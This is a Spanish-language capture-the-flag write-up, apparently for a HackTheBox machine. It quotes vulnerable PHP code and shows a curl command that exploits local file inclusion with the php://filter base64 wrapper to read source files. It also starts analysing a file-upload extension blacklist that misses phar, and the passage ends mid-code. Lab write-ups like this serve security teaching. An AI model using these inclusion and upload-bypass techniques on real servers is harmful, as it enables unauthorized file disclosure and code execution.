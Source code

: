 ------------------------------------------------
# Part 3: LFI -> Page?admin

El codigo del repo que nos hemos bajado y que concierne a esta parte:
```php
<b>This is only for developers</b>
<a href="?page=admin">Admin Panel</a>
<?php
    define("DIRECTACCESS",false);	
    $page=$_GET['page'];			// El contenido de la maquina que le pidamos por get a page
    if($page && !preg_match("/bin|usr|home|var|etc/i",$page)){ 	// Mientras que no incluya estos patrones
        include($_GET['page'] . ".php");		// Le concatenará la extensión.php y nos lo mostrará
 }else{ 
	include("checker.php");};
	// Si no ponemos ?page=admin nos carga checker.php
?>
```
Por tanto si la url es: http://dev.siteisup.htb/?page=admin -> (mensaje simple "This is only for developers")
Intentamos un LFI ya sabemos por el codigo de arriba que:
- No podemos pedir nada que tenga -> /bin, usr, home, var, etc, i   
- A lo que pidamos le pondra la extension php  
- Si pedimos un php habra que poner el wrapper de codificacion en base64 porque si no lo interpreta.  
- 
```console
└─$ curl -s -H "Special-Dev: only4dev" http://dev.siteisup.htb/?page=php://filter/convert.base64-encode/resource=checker | tail -n 1
PD9waHAKaWYoRElSRUNUQUNDRVNTKXsKCWRpZSgiQWNjZXNzIERlbmllZCIpOwp9Cj8+CjwhRE9DVFlQR...
```
El tema esque esos archivos php ya los tenemos gracias al repo asi que no es muy util por ahora.

------------------------------------------------
# Part 4: File upload phar

De no poner la url con el "page?" el codigo que entra en juego es **checker.php**
```php
<?php
if($_POST['check']){
    // Comprueba que el archivo sea menor que 10kb
    if ($_FILES['file']['size'] > 10000) { die("File too large!");}

	// Comprueba que la extension no sea ninguna de estas...
    $file = $_FILES['file']['name'];  
    $ext = getExtension($file);
    if(preg_match("/php|php[0-9]|html|py|pl|phtml|zip|rar|gz|gzip|tar/i",$ext)){
        die("Extension not allowed!");}
  
    // Crea un directorio para meter el archivo cargado. -> "/uploads/md5/"
    $dir = "uploads/".md5(time())."/";
    if(!is_dir($dir)){ mkdir($dir, 0770, true); }
  
    // Lo mete ahí y lo lee
    $final_path = $dir.$file;
    move_uploaded_file($_FILES['file']['tmp_name'], "{$final_path}");

	// Parece que cada linea del codigo la separa como una web (quiere una lista de webs)
    $websites = explode("\n",file_get_contents($final_path));
    foreach($websites as $site){
        $site=trim($site);
```
